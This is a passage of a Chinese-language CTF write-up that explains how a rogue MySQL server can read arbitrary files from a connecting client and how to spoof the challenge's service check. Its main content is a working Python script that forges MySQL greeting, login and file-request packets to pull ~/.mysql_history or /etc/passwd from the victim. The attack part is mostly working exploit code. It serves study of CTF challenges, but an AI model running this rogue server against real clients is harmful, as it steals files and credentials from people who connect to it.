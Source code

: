 
![QQ截图20190511214737](https://user-images.githubusercontent.com/40637063/57570602-6d297400-7436-11e9-9cfe-720761c4b08f.png)


客户端访问服务端时，服务端可以向客户端发送请求并且实现任意文件读取。

题目中的脚本目的是检测是否开启了mysql服务，所以可以将回显的东西设置为 ``result = [{'local_address':"0.0.0.0:3306",'Process_name':"1234/mysqld"}]``，这样就可以绕过客户端的验证了。

然后伪造一个mysql客户端。包括三部分：伪造greeting包，伪造登录成功包，伪造文件响应包。
脚本如下：

```python
import socket

host = '0.0.0.0'
port = 3306

server = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
server.bind((host,port))

server.listen(5)

# filename = '/etc/passwd'
filename = '~/.mysql_history'

greeting = "5b0000000a352e372e32362d307562756e7475302e31392e30342e31000c0000001c2a785a183c1a6200fff7080200ff811500000000000000000000336b72452b23601d7c206856006d7973716c5f6e61746976655f70617373776f726400".decode('hex')

login_conf = "0700000200000002000000".decode('hex')

# 这里的chr值得注意
evil_request = chr(len(filename) + 1)+"\x00\x00\x01\xfb"+filename

conn, addr = server.accept()
conn.send(greeting)
print conn.recv(9999)
conn.send(login_conf)
print conn.recv(9999)
conn.send(evil_request)
print conn.recv(9999)
```

三个发送的东西分别对应如下：
- greeting
  
  ![Screenshot from 2019-05-11 15-31-17](https://user-images.githubusercontent.com/40637063/57570552-ebd1e180-7435-11e9-9c95-fed585cdd3a2.png)
- 登录通过包
  
  ![Screenshot from 2019-05-11 15-35-00](https://user-images.githubusercontent.com/40637063/57570520-7e25b580-7435-11e9-988e-f68b0f04317e.png)
- 文件回显包
  
  ![Screenshot from 2019-05-11 15-49-14](https://user-images.githubusercontent.com/40637063/57570547-d8267b00-7435-11e9-9551-fb9ef384c7fd.png)
  